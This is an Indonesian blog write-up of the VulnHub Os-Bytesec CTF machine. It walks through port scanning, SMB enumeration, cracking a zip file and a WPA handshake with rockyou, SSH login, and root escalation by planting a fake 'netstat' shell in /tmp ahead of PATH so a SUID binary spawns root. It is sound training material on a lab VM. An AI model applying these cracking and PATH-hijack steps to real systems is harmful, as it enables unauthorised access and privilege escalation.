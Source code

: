 ```yaml
---
title: "[VulnHub] Os-Bytesec WriteUp"
date: 2019-04-19T23:11:19-19:00
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - intermediate
---
```


## Information Gathering
### nmap  
`nmap -sV -sC -p- bytesec.vh -oN initial.nmap -v`

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:55:4f:1e:e9:7e:ea:87:69:90:1c:1f:b0:63:3f:f3 (RSA)
|   256 a6:70:f1:0e:df:4e:73:7d:71:42:d6:44:f1:2f:24:d2 (ECDSA)
|_  256 f0:f8:fd:24:65:07:34:c2:d4:9a:1f:c0:b8:2e:d8:3a (ED25519)
MAC Address: 08:00:27:B3:78:46 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Server menjalankan web server di port 80, dan SMB di 139 dan 445.
![index.html](/Os-Bytesec/index.jpg){: .img-content }

### dirb 
Saya sempat mencoba dirscanning dan menemukan file `news.png` di `/img`.
![news.png](/Os-Bytesec/news.png){: .img-content }
Hmm pakah mesin ini vuln BlueKeep ? :thinking:
>**BlueKeep** is a remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights. ([_microsoft_](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708))

### enum4linux
Karena server menjalankan SMB, maka kita dapat mengumpulkan informasi yang berkaitan dengan SMB dengan tools enum4linux.

enum4linux adalah tools untuk melakukan enumerasi sistem Windows dan  Server Message Block (SMB/Samba) untuk mendapatkan informasi mulai dari domain, OS, versi SMB, hingga user yang ada dalam suatu domain.

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
```

### smbclient
Dari hasil enumerasi enum4linux diatas kita mendapatkan 3 user, setelah dicoba satu-satu hanya user `smb` yang bisa login SMB.
`smbclient //bytesec.vh/smb -U smb -p `
```
smb: \> ls
  .                                   D        0  Mon Nov  4 18:50:37 2019
  ..                                  D        0  Mon Nov  4 18:37:28 2019
  main.txt                            N       10  Mon Nov  4 18:45:38 2019
  safe.zip                            N  3424907  Mon Nov  4 18:50:37 2019
```
Download file `save.zip` saja (karena ternyata `main.txt` cuma file txt isi kata "helo" doang).
### fcrackzip
Karena file `save.zip` ternyata berpassword,  kita bisa bruteforce passwordnya dengan menggunakan tools **fcrackzip**.
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip`

```
PASSWORD FOUND!!!!: pw == hacker1smb:

```
Isi dari `safe.zip` adalah satu gambar dengan nama `secret.jpg` yang gak ada "secret-secret"--nya dan file `user.cap`.  
![deauth](/Os-Bytesec/deauth.jpg){: img_content }
Setelah lihat-lihat isi `user.cap` ternyata banyak sekali paket deauth yang tercapture, maka dapat disimpulkan ini adalah file _capture_-an dari bocah yang mau ngehek wifi pake `aireplay-ng`. Karena asumsinya itu adalah file _three-way handshake_ dari `airodump`/`aireplay`, maka kita bisa crack password yang tercapture dengan menggunakan `aircrack`.
`aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap`
```
Aircrack-ng 1.5.2 

      [00:00:14] 83800/7120712 keys tested (5232.31 k/s) 

      Time left: 22 minutes, 24 seconds                          1.18%

                           KEY FOUND! [ snowflake ]


      Master Key     : 8B A6 3F 95 1C E3 00 CA 30 C2 6E 63 59 61 35 42 
                       AB F7 73 5C D7 AD 3A 10 DB 21 51 64 DC 59 C6 8F 

      Transient Key  : 8E CC 35 6D EF 71 B7 2D 8D D5 03 3E 0D 5F 13 87 
                       BB 50 D3 85 31 BB 25 5A E7 AF 09 0D 85 42 6A 54 
                       60 CB 7F 40 7A E8 95 D5 A2 15 B1 19 66 17 64 CA 
                       7B FE 3D E6 66 6C B8 35 61 67 20 B2 8A C1 00 83 

      EAPOL HMAC     : 9D 5D 3B 71 C9 9E 71 31 58 38 53 A7 92 1C C5 48
```
Lalu apa informasi yang kita dapat? ESSID `user.cap` bernama blackjax dan key bernama `snowflake`. Hmm.. SSH! :smiley: 
## Exploitation
### User Flag
Dan ternyata kita berhasil login berdasarkan informasi yang kita dapat dari file `user.cap` tadi.
```
cat user.txt
  _    _  _____ ______ _____        ______ _               _____ 
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __ 
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|
                                                                 
                                                                 

Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```
### Root Flag
Hal wajib yang perlu dilakukan untuk melakukan privesc di sistem Linux adalah melakukan enumerasi dengan [**linenum.sh**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Cari direktori writeable dan jalankan file linenum disitu.  

Salah satu poin yang cukup interesting yaitu adanya file/program `netscan` di `/usr/bin/` yang mempunyai flag `SUID/SETUID`, flag tersebut berarti kita dapat menjalankan program tsb dengan mendapat privilege/permission sebagai root. File `netscan` menarik karena file/program tersebut tidak ada pada mesin pada umumnya.

#### Netscan
Rupanya program `netscan` hanya berupa "script" dari tools `netstat`.
```
blackjax@nitin:/tmp$ netscan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      1098/sshd       
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      861/smbd        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1041/mysqld     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      861/smbd        
tcp        0    188 192.168.43.97:2525      192.168.43.192:46168    ESTABLISHED 4133/sshd: blackjax
tcp6       0      0 :::2525                 :::*                    LISTEN      1098/sshd       
tcp6       0      0 :::445                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::139                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::80                   :::*                    LISTEN      1129/apache2    
```
Maka dari itu dapat diasumsikan bahwa `netscan` hanyalah skrip buatan netadmin agar `netstat` hanya menampilkan koneksi `established`. Logika diatas dapat dimanfaatkan untuk privilege escalation.
#### PrivEsc
1. Pindah ke `/tmp`, karena attribute direktory `/tmp` drwxrwxrwx.
 `cd /tmp`
2. Buat file bernama "netstat" dengan isi "/bin/sh"
 `echo "bin/sh" > netstat`
3. Tambahkan direktori `/tmp` ke environtment variable / `$PATH` dengan urutan paling awal.
 `export PATH=/tmp:$PATH`
 4. Jalankan lagi `netscan`
 
 Setelah `netscan` dijalankan lagi, ternyata kita berhasil mendapat user root dan flag root :smiley:
```
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __  
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /  
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/   
                     /_____/                           
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me

```

Bingung kenapa logika tsb bisa jalan? _sama saya juga_  
Ok jadi kunci keberhasilan privescnya adalah perubahan environtment variable / `$PATH`. Kita merubah **`netstat` asli** yang berisi tools untuk menampilkan koneksi aktif menjadi **"`netstat`" palsu** yang berisi command untuk memanggil shell. Umumnya dengan hanya merubah `netstat` asli menjadi `netstat` palsu kita juga tidak akan mendapat user root. Namun, karena kita menjalankan program **`netscan`** yang memiliki flag `SUID`, kita berhasil mendapat akses shell root.

Sederhananya, kita merekayasa "arah" pemanggilan file `netstat` pada program `netscan` yang seharusnya memanggil `/usr/bin/netstat` menjadi memanggil `/tmp/netstat` yang berisi perintah untuk memanggil shell. Ditambah dengan flag/attribute `SUID` yang ada di program `netscan`, maka yang terpanggil adalah shell root.

Sekian write up kali ini, see ya next time :heart: 
 


